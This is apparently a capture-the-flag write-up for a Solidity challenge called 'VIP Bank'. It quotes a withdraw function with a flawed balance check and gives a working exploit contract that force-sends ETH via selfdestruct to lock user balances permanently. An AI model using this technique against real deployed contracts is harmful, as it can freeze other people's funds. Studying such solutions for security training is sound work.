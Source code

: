 ### VIP Bank

Solution by 2pats

Objective: "At any cost, lock the VIP user balance forever into the contract."

Main vulnerabilities: 

The target contract's withdraw has an incorrectly designed require statement. All withdraws will revert if the contract's balance is over 0.5eth.

```
  function withdraw(uint _amount) public onlyVIP {
        require(address(this).balance <= maxETH, "Cannot withdraw more than 0.5 ETH per transaction");
        require(balances[msg.sender] >= _amount, "Not enough ether");
        (bool success,) = payable(msg.sender).call{value: _amount}("");
        balances[msg.sender] -= _amount;
        require(success, "Withdraw Failed!");
    }
```

Exploit: 

Forcefully add to the contract's balance by self destructing a contract of your own and specifying the target CTF contract as a recipient.

Take the example solution below: 

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

contract Solution {
    address targetAddress = 0x28e42E7c4bdA7c0381dA503240f2E54C70226Be2;
    function attack() public payable {
        address payable addr = payable(targetAddress);
        selfdestruct(addr);
    }
}
```

simply call the payable attack method with a value that would increase the contract balance to more than 0.5eth, as demonstrated similarly in my transaction here https://goerli.etherscan.io/tx/0xabf22269cb2dd3e3acf30252f43fd976b187cb54c6f0fb8037fa393c81585f46


